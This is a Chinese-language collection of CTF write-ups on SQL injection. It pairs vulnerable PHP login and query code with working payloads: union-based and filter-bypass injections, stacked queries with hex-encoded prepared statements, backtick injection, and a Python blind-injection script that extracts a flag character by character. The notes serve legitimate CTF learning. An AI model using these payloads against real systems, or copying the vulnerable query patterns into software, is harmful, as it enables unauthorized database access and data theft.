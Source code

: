 # sql注入做题总结

### 1.CG-CTF:MYSQL
```php
<?php
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
    wp：精度问题，id=1024.1得到flag
    
### 2.CG-CTF:SQL注入1
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
```
    wp:直接构造and 1 = 1的结构，注意需要替代空格
    user=admin')/**/and/**/1=1#&pass=123
    
### 3.CG-CTF:SQLInjection
```php
<?php
function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}
$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''   .$password.'\';';
?>
```
    wp:clean函数将’和“过滤了所以重点就是将username后面的'转义
    payload为?username=admin \&password=or 1=1#
    这样构造的语句就成了select * from users where name=' admin \' and pass=' or 1=1#';
    也就是把name字段变成了 admin ' and pass=
    整个语句最后理解为select * from users where name=***** or 1=1;
    这样不管查询了什么名称，都是为真的语句。也就是把数据表中的所有数据全部查出
    
### 4.CG-CTF:SQL注入2

```php
<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

    wp:没有任何过滤，sql语句的用法是将pw从表ctf中取出，在mysql中，当你使用了union语句，而联合查询前的语句返回空，
    则后面的语句的结果就会等于前面字段。
    如select pw from ctf where name='' union select '值';
    那么返回的结果为：pw=值；
    所以payload:user='union select "md(str)"--+&pass=str
    
### 5.百度杯九月场：SQL

    题目为int型注入，过滤了or和and和select，可以使用<>过滤
    payload:id=o<>rder by 3   知道字段为3
    id=union sele<>ct 1,schema_name,3 from info<>rmaton_schema.schemata得到数据库名sqli
    id=union sel<>ect 1,table_name,3 from info<>rmation.tables where table_schema='sqli' 得到表info
    id=union sele<>ct 1,column_name,3 from info<>rmation.columns where table_name='info'得到字段flAg_T5ZNdrm
    id=union sel<>ect 1,flAg_T5ZNdrm,3 from sqli.info得到flag{6b453f35-bc6b-41a4-852c-75a40b003bd1}

### 6.百度杯九月场：SQLI
    
    这题是逗号过滤
    输入 union select 1,2 %23时回显 1'union select 1猜测为逗号过滤，使用join绕过过滤
    join语句:
       select 字段1，字段2 from 表名 where id=xxx union select * from (select 1) a join (select 2) b；
    多少个字段就select多少个，这题通过order by得知查询了2个字段，所以有2个select。
    a和b分别为select 1 和select 2的别名
    若前面id为-1，则查询结果中为空，则显示union后面的数据
    payload:id=-1' union select * from (select 1) a join (select 2) b %23
    回显2则可以在2处插入查询语句。后略
### 7.BUUCTF：[强网杯 2019]随便注
```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
    由于过滤了很多查询语句，不过，可以使用16进制绕过
    先set @a=0x------ 
    然后使用prepare将@a设置为sql语句，再使用execute [名字]来执行

    wp:由于select被过滤，所以需要使用堆叠注入
    1';show databases;# 得到数据库supersqli
    1';show tables from supersqli; # 得到表1919810931114514
    1';show column from `1919810931114514`;# 得知只有flag一个字段
    构造语句select flag from `1919810931114514`将其转为16进制得到73656C65637420666C61672066726F6D20603139313938313039333131313435313460
    所以最终payload：
    inject=1';Set @a=0x73656C65637420666C61672066726F6D20603139313938313039333131313435313460;prepare test from @a;execute test;#
    
##### 注意：
    语句需要一次执行，如果分为set和prepare和execute分次发包的话无法执行。不知道为啥= =
    使用set会显示strstr过滤，但是strstr是严格区分大小写的，Set绕过，stristr为不区分大小写。
    
### 8.BUUCTF：[SUCTF 2019]EasySQL

    SQL语句为：select $_POST[query] || flag from flag 完全猜不到
    ||起到or的作用
    语句为：select post的数据 or flag from flag;
    payload：*,1
    
### 9.JarvisOJ：dctf-inject
```php
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);  
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

    wp:考察反引号注入
    desc `表名1` `表名2`并不会报错
    select '字段名' from 表名``union select 123;也不会报错，这里``就相当于一个空格。
    所以payload：
    flag``union select 123 limit 123;就可以回显123了。
    后略
    记得多看最终的sql执行语句，先判定从哪个语句进行注入！
    
##### 注意：
    
    mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
    这个语句其实只需要不报错就行了，不必要返回什么东西，有点坑爹，我一直以为要有返回数据才能绕过。
### 10.BUUCTF：[CISCN2019 华北赛区 Day2 Web1]Hack World

    payload: 1^(if((ascii(substr((select(flag)from(flag)),1,1))=102),0,1))

放脚本：
    
```python
import requests
import sys


url = 'http://3d69baf5-f2be-435e-a2e5-9f46bd2f2d9b.node3.buuoj.cn/index.php'
data_len = len(requests.post(url, data={'id': '1^(if((ascii(substr((select(flag)from(flag)),1,1))=102),0,1))'}).text)
print data_len

for i in range(0, 50):
    for j in range(1, 128):
        payload = '1^(if((ascii(substr((select(flag)from(flag)),'+str(i)+',1))='+str(j)+'),0,1))'
        post_data = {"id" : payload}
        res = requests.post(url, data=post_data)
        if len(res.text) == data_len:
            if chr(j) == '}':
                print '}'
                break
            sys.stdout.write(chr(j))
```
### 11.[极客大挑战 2019]easySQL
猜测查询语句：
```sql
select * from 表名 where username= '' and password=''
```

    构造payload:
        username = admin' or '1'='1
        password =  1' or '1'='1
        得到总的代码：select * from users where username = ' admin' or '1'='1  ' and password= '    1' or '1'='1     '
### 12.[极客大挑战 2019]LoveSQL
    和上题一样，但不止登陆成功，需要拿到数据库名，表名，字段名，id=16时有flag，让我看了好久名字，估计都是出题人之类的= =
### 13.[极客大挑战 2019]BabySQL
    同上题，过滤了，但是<>直接绕过，如sele<>ct passwo<>rd uni<>on等